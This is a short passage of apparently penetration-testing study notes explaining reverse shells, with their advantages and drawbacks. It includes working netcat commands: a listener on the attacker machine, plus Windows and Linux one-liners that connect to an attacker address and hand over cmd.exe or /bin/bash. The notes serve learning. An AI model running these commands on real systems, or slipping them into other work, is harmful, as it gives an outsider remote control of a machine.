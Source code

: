 🗒️ **Reverse Shell** - a remote shell where *the target connects to a listener running on the attacker's system* (**`e.g.`** Metasploit Meterpreter).

- *Reverse shells advantages*:
  - The connection can be initialized without `netcat` too
  - Outgoing traffic may not be blocked by firewalls

- *Reverse shells issues*:
  - used exploit have to know the attacker's IP
  - the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.10.18.3 1234 -e cmd.exe
```

![Reverse Shell - Win](.gitbook/assets/image-20230423225647628.png)

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```

![Reverse Shell - Linux](.gitbook/assets/image-20230423225954657.png)
